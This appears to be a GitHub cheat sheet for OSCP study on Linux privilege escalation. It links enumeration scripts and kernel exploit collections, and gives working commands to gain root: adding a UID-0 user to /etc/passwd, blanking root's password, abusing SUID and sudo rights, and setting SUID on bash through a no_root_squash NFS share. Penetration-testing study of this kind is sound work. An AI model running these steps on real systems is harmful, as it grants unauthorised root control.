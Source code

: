 ### Use LinPEAS and LinEnum and Linprivchecker
- https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
- https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
- https://github.com/reider-roque/linpostexp/blob/master/linprivchecker.py

### Linux Exploits DB
- https://github.com/SecWiki/linux-kernel-exploits
- https://github.com/xairy/linux-kernel-exploitation

## Linux PE methods
1. Editing /etc/passwd File (https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation/)
```bash
#method 1
openssl passwd raj
echo 'aarti:$1$cJ05ZYPP$06zg1KtuJ/CbzTWPmeyNH1:0:0:root:/root:/bin/bash' >> /etc/passwd
su aarti

#method 2
Keep the root password blank and save the /etc/passwd file.
root::0:0:root:/root:/bin/bash
su root
```

2. SUID Binaries (https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)
- detection 1: `find / -perm -u=s -type f 2>/dev/null`
- detection 2: you execute `ls -al` with the file name and then you observe the small 's' symbol as in the above image, then its means SUID bit is enabled for that file and can be executed with root privileges.

3. Sudo Rights (sudo -l)
- check root permissions for any user to execute any file or command by executing sudo -l command.
- can be permissions to use binary programs like find, python, perl, less, awk, nano -> use **GTFObins** or [RogueNight](https://github.com/RoqueNight/Linux-Privilege-Escalation-Basics?tab=readme-ov-file#absuing-sudo-binaries-to-gain-root)
- can be permissions to use other programs like /usr/bin/env, /usr/bin/ftp, /usr/bin/socat -> use **GTFObins**
- can be exploiting python libraries -> https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/
- can be permissions to run scripts like, .sh, .py or shell  
![image](https://github.com/redcountryroad/OSCP-shortsheet/assets/166571565/f5b0919f-ae15-4fbf-8377-660115352c68)
```bash
sudo -l
sudo /bin/script/asroot.sh
```

4. Misconfigure NFS
- 3 core configuration files (/etc/exports, /etc/hosts.allow, and /etc/hosts.deny), usually we will look only `/etc/export file`.
- `cat /etc/exports` and look for `*(rw,no_root_squash)`. take note of the folder that comes before it, can be /tmp or /home. Means shared /tmp or /home directory and allowed the root user on the client to access files to read/ write operation and * sign denotes connection from any Host machine
- can copy binary program like bash, or copy script like, .c (compile to shell), .py.
- can be combined with "Editing /etc/passwd File" using nano to add root access for new/exisiting users
- can be combine with sudo rights "sudo -l"
```bash
# gain access and make common access
mkdir /tmp/raj
mount -t nfs 192.168.1.102:/home /tmp/raj

# copy binary prog or script
cp /bin/bash .
chmod +s bash
```